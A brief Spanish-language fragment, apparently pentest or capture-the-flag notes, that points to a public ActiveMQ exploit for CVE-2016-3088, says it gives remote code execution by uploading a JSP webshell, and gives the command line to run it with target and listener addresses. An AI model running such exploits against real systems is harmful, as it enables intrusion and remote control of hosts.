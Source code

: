 Servicio de administración de impresoras.

** Webshell Upload (42283.rb) **
CVE2016-3088 (https://github.com/cyberaguiar/CVE-2016-3088)
Exploit que permite RCE al subir una webshell en jsp.
`python3 exploit_activemq.py <rhost> <rport> <user> <pass> <lhost> <lport>`

